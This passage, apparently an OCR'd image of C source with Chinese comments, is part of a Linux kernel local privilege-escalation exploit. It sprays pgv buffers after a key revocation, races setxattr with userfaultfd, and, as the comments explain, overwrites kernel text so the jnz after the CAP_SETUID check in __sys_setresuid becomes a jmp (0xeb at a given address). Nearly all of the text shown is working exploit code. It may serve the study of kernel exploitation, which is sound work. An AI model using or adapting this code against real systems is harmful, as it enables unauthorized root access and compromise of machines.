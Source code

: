 ```c
        key_revoke(key_id);
        sleep(1);

        /* 接下来，申请kmalloc-512的pgv */
        info("Allocating pgv...");
        int size = 0x130; // 0x130 大小属于kmalloc-512.这0x130的内容全部填充为内核代码段的地址.
        int packet_fd = alloc_pgv(size / 8, 0x1000);


        /* 将申请的pgv指向的地址全部改写为内核代码地址，这里我们修改如下函数的逻辑 */
        /**
         *
        long __sys_setresuid(uid_t ruid, uid_t euid, uid_t suid)
        {
            // ...
            if (!ns_capable_setid(old->user_ns, CAP_SETUID)) {
                if (ruid != (uid_t) -1        && !uid_eq(kruid, old->uid) &&
                    !uid_eq(kruid, old->euid) && !uid_eq(kruid, old->suid))
                    goto error;
                if (euid != (uid_t) -1        && !uid_eq(keuid, old->uid) &&
                    !uid_eq(keuid, old->euid) && !uid_eq(keuid, old->suid))
                    goto error;
                if (suid != (uid_t) -1        && !uid_eq(ksuid, old->uid) &&
                    !uid_eq(ksuid, old->euid) && !uid_eq(ksuid, old->suid))
                    goto error;
            }
            // ...
        }
        */

        /**
         * 其中call ns_capable_setid后面如下所示
         * test al, al
         * jnz xxxxxxx
         * 我们将jnz改为jmp就可以了,
         * 该地址为0xFFFFFFFF81086FD8，改为0xeb即可
         */

        /* 使用setxattr来修改获得的这些pgv，并将它们的虚拟地址指向内核中__sys_setresuid函数的代码地址的页的起始位置即可 */

        sleep(1);
        
        info("Preparing uffd content...");
        int uffd_size = 0x170; // 注意,不要让freelist指针位于uffd卡死地方
        for (int i = 0; i < uffd_size / 8; i++)
        {
            *(size_t*)((size_t)uffd_addr + 0x1000 + i*8 - uffd_size) = 0xFFFFFFFF81086000 + kernel_offset;
        }


        info("Creating 2 threads for uffd...");
        pthread_t p1, p2;

        pthread_create(&p1, NULL, (void *)setxattr_func, (char*)((size_t)uffd_addr + 0x1000 - uffd_size));
        sleep(1);

        pthread_create(&p2, NULL, (void *)setxattr_func, (char*)((size_t)uffd_addr + 0x1000 - uffd_size));
        sleep(1);

        // 然后将pgv的环形缓冲区的那一片内存映射到用户态，从而进行修改
```